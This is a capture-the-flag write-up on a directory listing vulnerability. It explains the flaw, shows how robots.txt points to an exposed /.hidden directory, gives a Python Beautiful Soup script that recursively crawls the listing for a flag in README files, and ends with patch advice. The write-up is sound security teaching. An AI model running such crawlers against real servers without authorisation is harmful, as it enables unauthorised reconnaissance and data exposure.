 # 🧭 Directory Listing

## 📖 Definition

**Directory listing** is a vulnerability that occurs when a web server improperly exposes the contents of a directory to users. When directory listing is enabled, users can view all the files and subdirectories within a folder on the server, often via a browser. This happens because the server does not have an index file (e.g., `index.html` or `index.php`) to display by default, and the web server is configured to list the directory's contents instead.

**Key Characteristics:**

- It reveals sensitive information, such as configuration files, backup files, database dumps, or scripts.
- It can facilitate reconnaissance by attackers, providing insights into the structure and contents of the server.

**Risks:**

1. **Information Disclosure:** Attackers may discover sensitive files (e.g., credentials, README files containing flags).
2. **Facilitates Exploitation:** Exposed files or scripts can lead to further attacks, such as code injection or privilege escalation.
3. **Data Breaches:** Attackers might download entire directories to sift through information offline.

## 🔍 Discovery

We first discover the existence of the `robots.txt` file by digging some infos and trying to access to this address: `http://<ip>/robots.txt`. Once done, the page displays:

```Text
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

The second line will be useful for an another breach but for now, let's focus on the last line: `Disallow: /.hidden`. We simply try to access to `http://<ip>/.hidden` and then we land on a page with a list of directories and a `README` file. We quickly realized that all the directories are nested into each other and that there is always a `README` file with a size of 34 bytes. All the `README` files that we downloaded contain troll messages so we bet on the fact that there will be one with the flag. So we code a little Python script to find this flag!

## 🏁 Flag

**1. The dumb way:**

1. Go on `http://<ip>/.hidden`
2. Browse ALL the directories and download ALL the `README` files you'll find
3. ...

**2. Using a Python script with Beautiful Soup**

**3. Using a Python script with Scrapy**

## 💡 Solutions

We chose to use Beautiful Soup for our Python script.

**script.py | Usage: `python script.py <ip>`**

```Python
import requests, sys
import urllib.request
from bs4 import BeautifulSoup

def directory_listing(url):
	response = requests.get(url)
	soup = BeautifulSoup(response.text, "lxml")
	for link in soup.find_all('a'):
		if link.get('href') == "README" :
			f = urllib.request.urlopen(url + '/' + link.get('href'))
			myfile = f.read().decode('utf-8')
			if "flag" in myfile:
				print(myfile)
			break
		elif link.get('href') != "../":
			directory_listing(url + '/' + link.get('href'))
	
def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	directory_listing("http://" + sys.argv[1] + "/.hidden")

if __name__ == "__main__":
	main()
```

This Python script is designed to recursively search for a `README` file within a hidden directory structure on a remote server, specified by an IP address. The script takes an IP address as a command-line argument, constructs a URL for the `.hidden` directory, and performs a recursive directory listing using the `requests` library and Beautiful Soup to parse the HTML. It checks all the links on each page, and if a `README` file is found, it attempts to open and read the file. If the file contains the word "flag", it prints the contents of the file. The script stops the recursion upon finding the `README` file or after visiting all directories.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Directory listing:** disable directory listing in the web server configuration. This can be done for Apache, Nginx, or other web servers.
- **`.htaccess` file:** use a `.htaccess` file (Apache) or other access control mechanisms to restrict access to sensitive directories, such as the one containing the flag.
- **Web Application Firewalls:** detect and block directory listing and other attacks. A WAF can inspect incoming traffic for malicious activity and prevent unauthorized access to sensitive directories and files.
- **Proper indexing:** Ensure every directory has a valid `index` file (e.g., `index.html`, `index.php`). This prevents the server from defaulting to directory listing when a user accesses a directory URL directly.
- **Access control and authentication:** require authentication before granting access to sensitive directories and files.

## 🧰 Toolbox

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/bs4/doc/)
- [Scrapy](https://scrapy.org/)

## 📚 References

- [Directory Browsing (ScienceDirect)](https://www.sciencedirect.com/topics/computer-science/directory-browsing#:~:text=Directory%20browsing%20is%20the%20ability,folders%20stored%20on%20the%20server.)
- [Directory Listing (PortSwigger)](https://portswigger.net/kb/issues/00600100_directory-listing)
- [Qu’est ce que le Directory Browsing/Listing ? (IT-Connect)](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/)

